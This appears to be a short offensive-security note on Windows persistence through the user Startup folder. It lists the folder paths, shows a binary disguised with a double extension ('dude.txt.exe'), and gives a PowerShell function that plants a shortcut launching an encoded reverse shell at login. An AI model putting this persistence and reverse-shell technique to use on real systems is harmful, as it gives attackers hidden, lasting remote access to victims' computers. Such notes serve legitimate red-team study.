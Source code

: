 
>[!info]
>This note is still in development.

### Overview
---
An easy method to establish persistence is via the Startup programs directory.  Binaries (or links) thrown in this directory execute at user login.

```powershell
# CMD Path
"%appdata%\Microsoft\Windows\Start Menu\Programs\Startup"

# PowerShell Path
"$env:AppData\Microsoft\Windows\Start Menu\Programs\Startup"
```

### Example
---
Below example shows a binary titled `dude.txt.exe` being placed in the Startup Programs directory, and being displayed as enabled for Startup in the Task Manager.

![[Pasted image 20230828112507.png]]

(*Notice: the `.exe` file extension was not displayed in Task Manager*)

### Example 2.0
---

```powershell
# PowerShell: Create a shortcut that takes arguments
function Make-Shortcut {
	param ( [string]$Executable, [string]$ExeArguments, [string]$DestinationPath )
	$WshShell = New-Object -comObject WScript.Shell
	$Shortcut = $WshShell.CreateShortcut($DestinationPath)
	$Shortcut.TargetPath = $Executable
	$Shortcut.Arguments = $ExeArguments
	$Shortcut.Save()
}

# Example: Create a PowerShell reverse shell shortcut in StartUp Programs
Make-Shortcut -Executable powershell.exe -ExeArguments "-e <base64_revshell>" -DestinationPath "$env:AppData\Microsoft\Windows\Start Menu\Programs\Startup\CoolGuy.lnk"

# Example: Create a link to a binary using CMD
cmd /c mklink <binary> <destination.lnk>
```
